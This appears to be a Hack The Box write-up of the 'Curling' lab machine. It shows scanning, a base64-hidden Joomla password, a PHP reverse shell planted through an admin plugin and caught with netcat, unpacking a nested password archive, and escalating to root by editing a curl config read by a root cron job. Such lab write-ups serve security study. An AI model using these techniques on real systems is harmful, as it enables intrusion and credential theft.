





# Curling


## Information Gathering

### Nmap

```console
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
| 256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_ 256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This box doesn't seem to have a lot of stuff going on, at least not based on my nmap scan. We've got **22** which we can *probably* ignore for now, and port **80**, which appears to be running something called **Joomla!** on Apache, of a standard and I think up to date version. Head on over to http://10.10.10.150:80/:

  
**Figure 1:** Curling  

So what is there to see here. We've got a login form, a few what look like blog posts, some links that don't look like much right now. Inspecting the source of the page shows that there is a comment:

  
**Figure 2:** Secret.txt  

Heading over to http://10.10.10.150/secret.txt gets us a blank page with the string `Q3VybGluZzIwMTgh`. I am unsure of what this is, it doesn't immediately appear to be anything. 

### Nikto

We should also continue enumerating while we try to figure out what this string is doing, I kicked off a Nikto scan:

```console
Server: Apache/2.4.29 (Ubuntu)
+ OSVDB-8193: /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval.
+ OSVDB-3092: /administrator/: This might be interesting...
+ OSVDB-3092: /bin/: This might be interesting...
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /tmp/: This might be interesting...
+ OSVDB-3092: /bin/: This might be interesting... possibly a system shell found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
```

I used that string to try to log into the original page where there is a spot to plop in some creds with no succes. Maybe its encoded or otherwise obfuscated? I popped it into [CyberChef](https://gchq.github.io/CyberChef/) and received what definitely appears to be a base64 encoded password:

  
**Figure 3:** base64  

Great - I want to go try to log into the site again using this as the password rather than the encoded string. I a few usernames that I thought would work:

`admin` + `Curling2018!` - **Failure**  
`Administrator`+ `Curling2018!` - **Failure**  

but they didn't work. We need to enumerate more to figure out who actually logs into this thing. If what we have isn't the admin password, it might be the user password? I see that the posts are written by **Super User**, let's try that:

`Super User`+ `Curling2018!` - **Failure**

While the posts are *posted* by Super User, one of them is signed **Floris**.

  
**Figure 4:** Floris  

Try logging in with that: `Floris` + `Curling2018!` - **Success**! Sweet, now what?


### User Flag  

Once we get logged into the site it looks like we can only make posts? Do we have to do some sort of XSS? In thinking about how I might accomplish that being all by myself I realized that our nikto scan also found `/administrator/`. Let's go see if we can log in there:

  
**Figure 4:** Admin  

We successfully logged into the admin panel. This is probably more promising than figuring out a way to XSS our way in through a blog post. Lets go googling for some Joomla! vulnerabilities or security bulletins. While I found a couple things, the one that was most interesting was a module that allowed for PHP to be executed on the server called [DirectPHP](https://forum.joomla.org/viewtopic.php?t=436618). 

Installing the module was pretty straight forward. After downloading it I went to `Extensions > Manage > Install` and uploaded the addon `.zip` file. We then have to go enable it in the `Extensions > Manage > Manage` menu and enabled it. 

Let's start our listener:

```console
root@apollo:~/htb/Curling# nc -lvnp 7777
listening on [any] 7777 ...
```

From here we need to go to `Content > Article > Add New Article` and create a post with our shell, I chose to use [PenTestMonkey's Stuff](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We should just need to go back to the blog home page and click on that link to execute the code.

```console
root@apollo:~/htb/Curling# nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.150] 43874
bash: cannot set terminal process group (1435): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Cool - we've got a low-priv shell as `www-data`. Let's go exploring:

```console
www-data@curling:/var/www/html$ pwd
pwd
/var/www/html
www-data@curling:/var/www/html$ cd /home
cd /home
www-data@curling:/home$ ls
ls
floris
www-data@curling:/home$ cd floris
cd floris
www-data@curling:/home/floris$ ls 
ls
admin-area
password_backup
user.txt
www-data@curling:/home/floris$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@curling:/home/floris$
```
Hmm, we will need to privesc to even get the `user` flag. There are the `admin-area` and `password_backup` files. I will grab those to see what they are and what we can do with them. I will start with `admin-area` because that sounds more interesting in my opinion.

```console
www-data@curling:/home/floris$ cd admin-area
cd admin-area
bash: cd: admin-area: Permission denied
www-data@curling:/home/floris$ 
``` 
So thats a directory, not a file, and we don'y have access. So I actually changed my mind I think `password_backup` is more interesting. Also lets check what it is before we try to grab it so we don't look like idiots again.

```console
www-data@curling:/home/floris$ file password_backup
file password_backup
password_backup: ASCII text
www-data@curling:/home/floris$ cat password_backup
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$
```
Well that's something. At work we actually just had a CTF event that went heavy into hex editing, and I learned a lot about the structure of files. Let's see what `425a 6839 3141` is. A straight google search of those first 3 bytes get us to a [base64 encoded bz2 archive](https://gist.github.com/renshuki/19bb7e6d09187d7808d9). That's probably not coincedence, I want to try unpacking it and see what we get. 

```console
www-data@curling:/home/floris$ mkdir /tmp/sdb   
www-data@curling:/home/floris$ cp password_backup /tmp/sdb/
www-data@curling:/home/floris$ cd /tmp/sdb
www-data@curling:/tmp/sdb$ ls
password_backup
```
Its weird that its showing as ASCII instead of a bz2 archive. I was not able to unpack it, but I was able to find [a way someone else was able to](https://www.linuxjournal.com/content/doing-reverse-hex-dump) - I will just copy them! 

```console
www-data@curling:/tmp/sdb$ xxd -r password_backup > password.bzip2
xxd -r password_backup > password.bzip2
www-data@curling:/tmp/sdb$ file password.bzip2
file password.bzip2
password.bzip2: bzip2 compressed data, block size = 900k
www-data@curling:/tmp/sdb$ bzip2 -d password.bzip2
bzip2 -d password.bzip2
bzip2: Can't guess original name for password.bzip2 -- using password.bzip2.out
```
What is our output?

```console
^_~K^H^H~Dl^D[^@^Cpassword^@^A~M^@r�BZh91AY&SY6�~M~D^@^@^?^?~D�^P~@@@!^?~D^H^@^D
PtD��^@^@~@^H ^@t"d�h^@^@h^COPIS@^@^@^@^@�~R6~X~D^O8^BET>P@�#I b�~C|3�~\x^V~H���
^B�^S�~V��(*N~M&^N~LH��k^_^O^U1��^T^Cx^U^\��"~I{�ೱ~L^@�]�^T�B@�^^6^P^N~Zm�~M^
@^@^@
```

A bunch of garbage, but I see the word **password**. So that's probably something.

```console
www-data@curling:/tmp/sdb$ file password.bzip2.out
file password.bzip2.out
password.bzip2.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
```

Oh *soooo* cool - its a gzip archive now. I am going to rename it because tab complete isn't working and I am sick of typing the entire name.

```console
www-data@curling:/tmp/sdb$ mv password.bzip2.out pw.gz
www-data@curling:/tmp/sdb$ ls
password_backup
pw.gz
www-data@curling:/tmp/sdb$ gunzip pw.gz
www-data@curling:/tmp/sdb$ ls
password_backup
pw
www-data@curling:/tmp/sdb$ cat pw
cat pw
BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{�ೱ��]��B@�6
```

Now I seem to have lost my string of `password`. This is getting a tad annoying, its busywork more than anything else. I am sure there is a way to recursively unzip all the files as they are unzipped out of their respective archive like a set of matryoshka dolls, but I don't know how.

```console
www-data@curling:/tmp/sdb$ file pw
pw: bzip2 compressed data, block size = 900k
www-data@curling:/tmp/sdb$ bzip2 -d pw
bzip2: Can't guess original name for pw -- using pw.out
www-data@curling:/tmp/sdb$ ls
password_backup
pw.out
www-data@curling:/tmp/sdb$ cat pw.out
cat pw.out
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
www-data@curling:/tmp/sdb$
```
Okay - this looks like a real thing - `root`, `root`, and `5d<wdCbdZu)|hChXll`, but let's be sure its not yet another matryoshka. 

```console
www-data@curling:/tmp/sdb$ file pw.out
pw.out: POSIX tar archive (GNU)
www-data@curling:/tmp/sdb$ tar xvf pw.out
password.txt
lwww-data@curling:/tmp/sdb$cat password.txt
cat password.txt
5d<wdCbdZu)|hChXll
www-data@curling:/tmp/sdb$
```

Well, we had it with the previous matryoska, but never hurts just to be sure. This definitely looks like the password we need: `5d<wdCbdZu)|hChXll`.

Where can we use this password? We already have access to the admin panel for Joomla!, port **22** was open - let's try to ssh into the box with this as the password. We don't *know* the user yet, but we can make a few good guesses.

```
root@apollo:~/htb/Curling# ssh floris@10.10.10.150
floris@10.10.10.150's password: 

Permission denied, please try again.
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 27 01:53:54 UTC 2019

  System load:  0.07              Processes:            169
  Usage of /:   46.2% of 9.78GB   Users logged in:      0
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 28 17:00:48 2018 from 192.168.1.71
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
floris@curling:~$ 
floris@curling:~$ pwd
/home/floris
floris@curling:~$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
floris@curling:~$ cat user.txt 
65dd1****************b8530b
```
Great - I didn't forget about that `/admin-area/` though. That's where I want to head next.

### Root Flag

  
**Figure 5:** admin-area  

Something is taking the `localhost` address as an input for something. The report file just looks like a bunch of Joomla garbage. I am going to leave that alone for now. I moved over [LinEnum](https://github.com/rebootuser/LinEnum) and [PSpy](https://github.com/DominicBreuker/pspy) to start my privesc enumeration, quickly I found a process running as **UID=0**, aka root, that is using the input that is set by the `input` file located in the `admin-area`. 

```console
2019/03/27 02:34:01 CMD: UID=0    PID=3584   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2019/03/27 02:34:01 CMD: UID=0    PID=3583   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
2019/03/27 02:34:01 CMD: UID=0    PID=3582   | /usr/sbin/CRON -f 
2019/03/27 02:34:01 CMD: UID=0    PID=3581   | /usr/sbin/CRON -f 
2019/03/27 02:34:01 CMD: UID=0    PID=3586   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
```

So we should be able to edit the contents of that `input` file to read out the contents of `root.txt` if this idea works:

```console
floris@curling:~/admin-area$ date
Wed Mar 27 02:39:24 UTC 2019
floris@curling:~/admin-area$ vi input
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
floris@curling:~/admin-area$ vi input 
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
floris@curling:~/admin-area$ date
Wed Mar 27 02:40:13 UTC 2019
floris@curling:~/admin-area$ date
Wed Mar 27 02:40:13 UTC 2019
floris@curling:~/admin-area$ date
Wed Mar 27 02:40:37 UTC 2019
floris@curling:~/admin-area$ date
Wed Mar 27 02:40:38 UTC 2019
floris@curling:~/admin-area$ cat report
82c19****************6064a
```
Sick vi skills bro. 

# Conclusion

This machine was pretty fun. It was one of the first machines I did on HtB and took me over a week. I did not document it as well as I have some of the boxes I have been doing recently so I apologize for the lack of standardization. 
